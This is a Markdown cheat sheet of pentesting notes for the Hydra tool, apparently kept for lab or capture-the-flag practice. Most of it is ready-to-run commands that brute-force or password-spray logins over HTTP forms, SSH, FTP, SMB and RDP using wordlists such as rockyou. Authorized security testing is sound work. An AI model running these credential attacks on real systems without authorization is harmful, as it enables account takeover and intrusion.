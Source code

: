 # Hydra

## Resources
- <https://github.com/vanhauser-thc/thc-hydra>
- <https://www.thc.org/>
- <https://github.com/gnebbia/hydra_notes>


## Commands

`-s` PORT to specify a non-default port for the service in question.

`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.

`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.

`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.

Use `-L/-P` for wordlist `-l/-p` for single username/password





# basic auth login
hydra -C WORDLIST -s PORT IP http-get URI 

# http post login
hydra -l user -P /usr/share/wordlists/rockyou.txt IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"







### HTTP

#### POST Login

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"


sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

hydra -L users.txt -P password.txt <IP or domain> http-{post/get}-form "/path:name=^USER^&password=^PASS^&enter=Sign+in:Login 
name or password is incorrect" -V

```




#### GET Login
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.231.201
```














### ssh
```
hydra -L user -P pass ssh://IP -s 22


hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V

hydra -l <username> -P <full path to pass> [IP] -t 4 ssh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://${ip} -t 4

hydra -L [USERS FILE] -P [PASSWORDS FILE] [IP] ssh -u -I
hydra -L [USERS FILE] -P [PASSWORDS FILE] ssh://[IP]



hydra -l username -P wordlist.txt server service

hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh

```














### ftp
```

hydra -l user -P passlist.txt ftp://[IP]

hydra -l mark -P /usr/share/wordlists/rockyou.txt [IP] ftp

hydra -L /usr/share/metasploit-framwork/data/wordlists/common_users.txt -P /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt [IP] ftp

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://[IP]

```











### smb
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [IP] smb


```












### RDP
```

hydra -l nadine -P /usr/share/wordlists/rockyou.txt -s 3389 rdp://192.168.213.227




# Spraying attack
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

